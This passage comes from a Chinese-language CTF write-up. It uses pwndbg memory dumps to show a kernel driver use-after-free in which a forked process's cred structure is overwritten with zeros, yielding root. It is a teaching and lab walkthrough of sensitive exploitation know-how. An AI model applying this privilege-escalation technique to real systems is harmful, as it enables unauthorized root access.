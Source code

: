 在结构体长度赋值之前，查看一下`dev_buf`和`dev_buf_len`；

```
pwndbg> x/10gx 0xffffffffc00024d0
0xffffffffc00024d0:	0xffff880003d1ea80	0x0000000000000040
0xffffffffc00024e0:	0x0000000000000000	0x0000000000000000
0xffffffffc00024f0:	0x0000000000000000	0x0000000000000000
0xffffffffc0002500:	0x0000000000000000	0x0000000000000000
0xffffffffc0002510:	0x0000000000000000	0x0000000000000000
```

执行结束后再次查看；

```
pwndbg> x/10gx 0xffffffffc00024d0
0xffffffffc00024d0:	0xffff880003d70540	0x00000000000000a8
0xffffffffc00024e0:	0x0000000000000000	0x0000000000000000
0xffffffffc00024f0:	0x0000000000000000	0x0000000000000000
0xffffffffc0002500:	0x0000000000000000	0x0000000000000000
0xffffffffc0002510:	0x0000000000000000	0x0000000000000000
```

可以看到，buffer的地址又重新分配了，而`dev_buf_len`被修改为了`cred`结构体的大小；

执行`c`，程序执行到`babywrite`时停下，此时`fork`的新进程的`cred`结构体已经被放到了buffer处，也就是`0xffff880003d70540`处；

可以瞅一眼；

```
pwndbg> x/10gx 0xffff880003d70540
0xffff880003d70540:	0x000003e800000002	0x000003e8000003e8
0xffff880003d70550:	0x000003e8000003e8	0x000003e8000003e8
0xffff880003d70560:	0x00000000000003e8	0x0000000000000000
0xffff880003d70570:	0x0000000000000000	0x0000000000000000
0xffff880003d70580:	0x0000003fffffffff	0x0000000000000000
```

可以看到很多`0x3e8`，其实这就是`1000`，代表了用户的权限；

```
pwndbg> p 0x3e8
$1 = 1000
```

在执行完`babywrite`后，再看一下该地址的内容；

```
after this ->  0xffffffffc0000119 <babywrite+41>    call   0xffffffff813e6520

pwndbg> x/10gx 0xffff880003d70540
0xffff880003d70540:	0x0000000000000000	0x0000000000000000
0xffff880003d70550:	0x0000000000000000	0x000003e800000000
0xffff880003d70560:	0x00000000000003e8	0x0000000000000000
0xffff880003d70570:	0x0000000000000000	0x0000000000000000
0xffff880003d70580:	0x0000003fffffffff	0x0000000000000000
```

可以看到前0x28bytes被修改为0；

执行c，达到提权效果；

```
/ # id
uid=0(root) gid=0(root) groups=1000(ctf)
```

